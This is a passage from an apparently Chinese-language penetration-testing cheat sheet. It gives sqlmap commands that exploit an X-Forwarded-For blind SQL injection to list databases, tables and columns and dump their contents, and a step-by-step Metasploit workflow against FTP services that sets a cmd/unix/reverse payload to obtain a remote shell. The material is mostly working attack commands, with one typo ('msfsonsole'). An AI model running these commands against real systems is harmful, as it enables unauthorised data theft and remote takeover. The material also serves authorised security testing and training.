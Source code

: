 * 如果扫到有 `X-Forwarded-For` 漏洞（盲注漏洞）

    ```shell
    # 1. 使用以下命令，程序会帮我们探测出存在的数据库名
    sqlmap -u "http://1.1.1.1" --headers="X-Forwarded-For:*"  --dbs --batch # batch 表示如果需要输入yes or no的时候，程序会根据情况帮我们输入
    # 2. 查看数据表
    sqlmap -u "http://1.1.1.1" --headers="X-Forwarded-For:*" -D "数据库名" --tables --batch
    # 3. 查看数据表包含的字段
    sqlmap -u "http://1.1.1.1" --headers="X-Forwarded-For:*" -D "数据库名" -T "表名" --columns --batch
    # 4. 查看字段对应的值
    sqlmap -u "http://1.1.1.1" --headers="X-Forwarded-For:*" -D "数据库名" -T "表名" -C "字段值1，字段值2" --dump --batch
    ```

### 3.5 针对 FTP

1. 漏洞分析

```shell
# 1. 查询漏洞
searchsploit Your_FTP_Version
# 2. 看输出结果，如果有 （Metasploit） 代表可以用 metasploit 进行溢出
# 3. 启动 msfconsole
msfsonsole
# 4. 搜素可利用的漏洞信息
search Your_FTP_Version
# 5. 如果存在可以利用的漏洞模块，会输出相关信息。怎么使用呢？关注 Name 下的路径，复制它。
use Name显示的路径
# 6. 查看可以使用的 payload
show payloads
# 7. 设置 payload(一般用cmd/unix/reverse)
set payload cmd/unix/reverse
# 8. 查看 payload 需要设置哪些参数(一般是靶机IP、端口，攻击机IP、端口)
show options
# 9. 设置参数（设置完后，再查看一遍参数设置）
set rhost target_IP
set lhost local_IP
# 10. 开始溢出（可以直接获得shell）
exploit
# 11. 查看用户（优化会话）
id
```

### 3.6 针对大端口非 http 服务

